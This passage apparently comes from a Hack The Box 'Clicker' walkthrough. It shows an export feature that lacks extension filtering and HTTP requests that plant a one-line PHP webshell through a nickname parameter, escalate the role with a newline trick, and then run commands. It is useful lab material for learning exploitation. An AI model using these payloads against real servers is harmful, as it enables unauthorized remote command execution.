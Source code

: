 ![Admin](images/htb/box/clicker/admin.png)

Once inside I saw we could export a list of users as JSON, TXT or HTML.

Looking at the source of `exports.php` no extension filtering occurs, so we can create a `.php` file, now we just have to put a shell in.

```php
...
$filename = "exports/top_players_" . random_string(8) . "." . $_POST["extension"];
...
```

Looking back at our parameter injection code, we can insert a new value for the `nickname` parameter post-registration which is a [tiny PHP webshell](https://github.com/bayufedra/Tiny-PHP-Webshell#simple-http-requests-get-method-shell).

```
GET /save_game.php?clicks=8794732211&level=11&nickname=<?=`$_GET[0]`?>&role%0a=Admin HTTP/1.1
Host: clicker.htb
```

I now generate a new export with the `.php` extension.

```
POST /export.php HTTP/1.1
Host: clicker.htb

threshold=1&extension=php
```

Visiting the export gives us a mostly blank page, until we use `?0=whoami` in the paramter and we get this!
